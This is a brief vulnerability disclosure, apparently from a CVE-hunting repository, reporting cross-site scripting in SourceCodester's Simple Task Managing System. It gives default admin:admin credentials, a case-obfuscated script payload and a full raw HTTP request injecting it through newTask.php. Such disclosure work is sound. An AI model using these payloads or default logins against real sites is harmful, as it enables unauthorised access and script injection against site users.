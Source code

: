 # Simple Task Managing System - XSS

A vulnerability classified as problematic was found in SourceCodester Simple Task Managing System. This vulnerability affects unknown code. The manipulation of the argument newTask.php leads to cross site scripting. The attack can be initiated remotely.

username:admin password:admin ----> {ip}/newTask.php

Supplier： https://www.sourcecodester.com/php/15624/simple-task-managing-system-php-mysqli-free-source-code.html

/board.php has XSS

> Payload: "><ScRiPt>alert(1)</sCrIpT>

XSS because $shortName can be closed

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/1.png)

## Payload

```sql
GET http://localhost/cve/Task%20Managing%20System%20in%20PHP/newTask.php?sn=%3CsCrIpT%3Ealert(1)%3C/sCrIpT%3E HTTP/1.1
Host: localhost
Cache-Control: max-age=0
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="94"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=34a9idaoj7m7miduqt31hupisn
Connection: close
```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/3.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/2.png)